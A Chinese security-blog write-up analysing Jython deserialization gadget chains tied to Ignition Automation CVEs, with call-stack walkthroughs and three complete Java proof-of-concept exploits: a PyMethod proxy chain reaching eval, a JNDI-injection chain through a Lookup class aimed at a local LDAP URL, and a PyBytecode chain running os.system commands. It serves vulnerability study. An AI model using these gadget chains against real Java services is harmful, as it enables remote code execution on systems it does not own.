

# Jython Gadgets Chain 利用分析 - 先知社区

Jython Gadgets Chain 利用分析

- - -

# 起源

在 IGNITION AUTOMATION 里公开了两个反序列化的 RCE，CVE-2023-39475 和 CVE-2023-39476，不过该漏洞并没有利用公开的利用链，于是抱着学习的心态来分析本次基于 jython 的利用链

pom 配置如下

```bash
<dependency>  
    <groupId>org.python</groupId>  
    <artifactId>jython-standalone</artifactId>  
    <version>2.7.2</version>  
</dependency>
```

# 分析

本次漏洞作者一共寻找到了两处利用：

1.  com.ziclix.python.sql.connect.Lookup jndi 注入
2.  org.python.core.BuiltinFunctions 的 rce

## org.python.core.BuiltinFunctions

先看 org.python.core.BuiltinFunctions 的利用：  
本来利用的是 org.python.core.PyFunction，但是由于 PyFunction 的 readResolve 方法抛异常了，于是作者另寻了一处入口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141624-930bb048-cfb7-1.png)

入口是 org.python.core.PyMethod，该类继承了 InvocationHandler，可以用来做代理类  
invoke 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141646-9fc45c54-cfb7-1.png)

`__call__`一直跟下去，会调用`instancemethod___call__`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141701-a8cced66-cfb7-1.png)

这里又会调用 `__func__`的`__call__`方法，`__func__`是一个 PyObject 类型  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141713-aff1299a-cfb7-1.png)

于是可以指定为 org.python.core.BuiltinFunctions  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141724-b6df7130-cfb7-1.png)

org.python.core.BuiltinFunctions 的`__call__`方法，当 index 为 18 的时候，就可以调用 eval 方法执行代码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141734-bc896b22-cfb7-1.png)

整个调用栈

```bash
java.io.ObjectInputStream.readObject
    java.util.PriorityQueue.readObject
        java.util.PriorityQueue.heapify
            java.util.PriorityQueue.siftDownUsingComparator
                com.sun.proxy.$Proxy4.compare
                    org.python.core.PyMethod.invoke
                        org.python.core.PyMethod.__call__
                            org.python.core.PyMethod.instancemethod___call__
                                org.python.core.PyObject.__call__
                                    org.python.core.PyBuiltinFunctionNarrow.__call__
                                        org.python.core.BuiltinFunctions.__call__
                                            org.python.core.__builtin__.eval
                                                org.python.core.Py.runCode
```

前半部分的触发就是利用 PriorityQueue 的 heapify 触发比较器的 compare 方法，而把比较器设置为代理类，就能触发比较器的 invoke 方法。  
构建一个PyMethod的代理类，接口类型为Comparator，在反序列化队列时，触发代理类compare方法的调用，从而进入到PyMethod#invoke里。然后就是后续构造BuiltinFunctions和pystring

几个点：

1.  创建 PyMethod 的代理类，设置接口类型为 Comparator
2.  org.python.core.BuiltinFunctions 的 index 需要是 18，触发 eval
3.  pymethod 的 im\_class type 需要是 pyargs 所指定的 type，否则 checkSelf 方法无法通过

最终的 poc

```bash
package org.example;  

import org.python.core.*;  
import sun.misc.Unsafe;  

import java.io.*;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.util.Comparator;  
import java.util.HashMap;  
import java.util.PriorityQueue;  

public class Main {  
    public static void main(String[] args) throws Exception {  
        Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
        unsafeField.setAccessible(true);  
        Unsafe unsafe = (Unsafe) unsafeField.get(null);  

        PyMethod pyMethod = (PyMethod) unsafe.allocateInstance(PyMethod.class);  

        PyObject builtinFunctions = (PyObject) unsafe.allocateInstance(Class.forName("org.python.core.BuiltinFunctions"));  

        Field index = builtinFunctions.getClass().getSuperclass().getDeclaredField("index");  
        index.setAccessible(true);  
        index.set(builtinFunctions, 18);  

        pyMethod.__func__ = builtinFunctions;  
        pyMethod.im_class = new PyString().getType();  
        HashMap<Object, PyObject> _args = new HashMap<>();  
        _args.put("rs", new PyString("print('Hello World')")); 
        //_args.put("rs", new PyString("import os;\nos.system('open -a /System/Applications/Calculator.app')")); 

        PyStringMap locals = new PyStringMap(_args);  
        Object[] queue = new Object[] {  
                new PyString("__import__('code').InteractiveInterpreter().runcode(rs)')"),
                locals,
        };  

        // create dynamic proxy  
        Comparator o = (Comparator) Proxy.newProxyInstance(Main.class.getClassLoader(),  
                new Class[]{Comparator.class},  
                pyMethod);  

        // set comparator  
        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, o);  

        Field f = priorityQueue.getClass().getDeclaredField("queue");  
        f.setAccessible(true);  
        f.set(priorityQueue, queue);  
        Field f2 = priorityQueue.getClass().getDeclaredField("size");  
        f2.setAccessible(true);  
        f2.set(priorityQueue, 2);  

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(priorityQueue);  

        byte[] bytes = byteArrayOutputStream.toByteArray();  
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);  
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);  
        objectInputStream.readObject();  
    }  
}
```

上述执行 python 代码等同于：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141836-e1994b26-cfb7-1.png)

## com.ziclix.python.sql.connect.Lookup

然后再看一下 com.ziclix.python.sql.connect.Lookup jndi 的调用

整个链的触发逻辑一样，只是最终的触发改为了  
`com.ziclix.python.sql.connect.Lookup#__call__`  
把第一个参数取出来解析成 jndiName  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141927-00121ab0-cfb8-1.png)

最终带入 lookup 方法  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220141938-068fe656-cfb8-1.png)

```bash
java.io.ObjectInputStream.readObject
    java.util.PriorityQueue.readObject
        java.util.PriorityQueue.heapify
            java.util.PriorityQueue.siftDownUsingComparator
                com.sun.proxy.$Proxy4.compare
                    org.python.core.PyMethod.invoke
                        org.python.core.PyMethod.__call__
                            org.python.core.PyMethod.instancemethod___call__
                                org.python.core.PyObject.__call__
                                    com.ziclix.python.sql.connect.Lookup.__call__
```

poc

```bash
package org.example;  

import org.python.core.PyMethod;  
import org.python.core.PyString;  
import sun.misc.Unsafe;  

import java.io.ByteArrayInputStream;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectInputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.lang.reflect.Proxy;  
import java.util.Comparator;  
import java.util.PriorityQueue;  

public class Lookup {  
    public static void main(String[] args) throws Exception{  
        Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");  
        unsafeField.setAccessible(true);  
        Unsafe unsafe = (Unsafe) unsafeField.get(null);  

        PyMethod pyMethod = (PyMethod) unsafe.allocateInstance(PyMethod.class);  
        pyMethod.__func__ = new com.ziclix.python.sql.connect.Lookup();  
        pyMethod.im_class = new PyString().getType();  

        Comparator c = (Comparator) Proxy.newProxyInstance(  
                Lookup.class.getClassLoader(),  
                new Class[]{Comparator.class},  
                pyMethod  
        );  
        PriorityQueue priorityQueue = new PriorityQueue(2, c);  

        Object [] queue = new Object[]{  
                new PyString("ldap://127.0.0.1:1389"),  
                1  
        };

        Field f = priorityQueue.getClass().getDeclaredField("queue");  
        f.setAccessible(true);  
        f.set(priorityQueue, queue);  
        Field f2 = priorityQueue.getClass().getDeclaredField("size");  
        f2.setAccessible(true);  
        f2.set(priorityQueue, 2);  

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);  
        objectOutputStream.writeObject(priorityQueue);  

        byte[] bytes = byteArrayOutputStream.toByteArray();  
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);  
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);  
        objectInputStream.readObject();  

    }  
}
```

## ysoserial

然后再顺便看下 yso 里的 jython 链，这个链用到了 python 字节码  
jython <=2.5.2  
将低 jython 版本至低版本，低版本 PyFunction 没有重写 readResolve 方法，不会抛出异常  
前序的链不变，依然使用 PriorityQueue，PyMethod 这换成 PyFunction  
invoke 之后，调用`__call__`方法，一直调用到 func\_code.call，func\_code 是一个 PyCode 类型  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220142007-18013df4-cfb8-1.png)

最终利用了 PyBytecode 构建字节码并执行  
查看 os.py 的指令  
`python -m dis`  
最左边是行号，右边是执行 LOAD\_CONST 0, LOAD\_CONST 1, IMPORT\_NAME 0

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220142055-3467d70a-cfb8-1.png)

然后可以用 dis 把上述指令和 code 作相互转化

[](https://xzfile.aliyuncs.com/media/upload/picture/20240220142115-403913d2-cfb8-1.png)

用 python2 运行

```bash
def execEvil(a, b):
    f = open(a, 'w')
    f.write(b)
    f.close()
    execfile(a)

if __name__ == '__main__':
    print(execEvil.__code__.co_code.encode('hex'))
    print(execEvil.__code__.co_name)
    print(execEvil.__code__.co_names)
    print(execEvil.__code__.co_consts)
    print(execEvil.__code__.co_varnames)
    print(execEvil.__code__.co_filename)
    print(execEvil.__code__.co_argcount)
    print(execEvil.__code__.co_stacksize)
    print(execEvil.__code__.co_nlocals)
    print(execEvil.__code__.co_flags)
    print(execEvil.__code__.co_lnotab)
    print(execEvil.__code__.co_firstlineno)
    print(dis.dis(execEvil.__code__))
```

可以获取到构建 PyBytecode 所需要的参数值  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220142131-4a0733ee-cfb8-1.png)

生成的 code 如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240220142144-51dc40a0-cfb8-1.png)

通过 execfile 执行，不用在代码外层 import os

```bash
package org.example;

import org.python.core.*;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

public class Jython {
    public static void main(String[] args) throws Exception {
        String path = "/Users/Downloads/123.py";
        String code = "import os\nos.system('open -a Calculator.app')";

        String pythonByteCode = "7400006401006402008302007D00007C0000690100640300830100017C0000690200830000017403006401008301000164000053";

        // 初始化参数
        PyObject[] consts = new PyObject[]{new PyString(""), new PyString(path), new PyString("w+"), new PyString(code)};
        String[]   names  = new String[]{"open", "write", "close", "execfile"};

        // 初始化 PyBytecode
        PyBytecode bytecode = new PyBytecode(2, 2, 10, 64, "", consts, names, new String[]{"", ""}, "noname", "<module>", 0, "");
        Field field    = PyBytecode.class.getDeclaredField("co_code");
        field.setAccessible(true);
        field.set(bytecode, new BigInteger(pythonByteCode, 16).toByteArray());

        // 使用 PyBytecode 初始化 PyFunction
        PyFunction handler = new PyFunction(new PyStringMap(), null, bytecode);

        // 使用 PyFunction 代理 Comparator
        Comparator comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> priorityQueue = new PriorityQueue<Object>(2, comparator);
        Object[]              queue         = new Object[]{path, code};

        Field queueField = PriorityQueue.class.getDeclaredField("queue");
        queueField.setAccessible(true);
        queueField.set(priorityQueue, queue);

        Field sizeField = PriorityQueue.class.getDeclaredField("size");
        sizeField.setAccessible(true);
        sizeField.set(priorityQueue, 2);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(priorityQueue);

        byte[] bytes = byteArrayOutputStream.toByteArray();
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```
